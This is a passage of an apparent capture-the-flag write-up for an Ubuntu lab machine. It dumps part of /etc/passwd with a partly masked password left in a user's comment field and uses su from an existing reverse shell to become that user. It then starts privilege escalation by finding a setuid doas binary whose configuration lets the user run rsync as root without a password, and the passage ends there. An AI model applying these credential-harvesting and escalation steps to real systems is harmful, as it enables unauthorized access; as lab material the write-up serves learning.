 ```sh
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
vagrant:x:1000:1000:,,,:/home/vagrant:/bin/bash
ubuntu:x:1001:1001:Ubuntu:/home/ubuntu:/bin/bash
kiran:x:1002:1002:try******************kiran:/home/kiran: // I dropped a section of the passwd

```

Since we have a TTY reverse shell we can use su.

```sh
$ su kiran
su kiran
Password: try********************kiran // I dropped a section of the passwd

kiran@ubuntu-xenial:/var/backups$ cd
cd
kiran@ubuntu-xenial:~$ ls
ls
user.txt
```

Answer:      ************************************************************************************

## Elevation of Privilege : from kiran to root:

By looking for a SUID binary manually I found there was `doas` in `/usr/local/bin`. So we can check the configuration in `/usr/local/etc/doas.conf` instead of `/etc/doas.conf`.

[Doas](https://book.hacktricks.xyz/linux-unix/privilege-escalation#doas) is an alternative to sudo.

```sh
kiran@ubuntu-xenial:~$ ls -lh /usr/local/bin
total 68K
-rwsr-x--x 1 root root  38K Dec  6 17:13 doas
-rwxr-xr-x 1 root root  221 Dec  6 06:21 echo_supervisord_conf
-rwxr-xr-x 1 root root  211 Dec  6 06:17 flask
-rwxr-xr-x 1 root root  220 Dec  6 06:21 gunicorn
-rwxr-xr-x 1 root root  221 Dec  6 06:21 pidproxy
-rwxr-xr-x 1 root root  226 Dec  6 06:21 supervisorctl
-rwxr-xr-x 1 root root  224 Dec  6 06:21 supervisord
-rwxr-xr-x 1 root root 1.2K Dec  6 17:13 vidoas

kiran@ubuntu-xenial:~$ cat /usr/local/etc/doas.conf
 permit nopass kiran as root cmd rsync
```
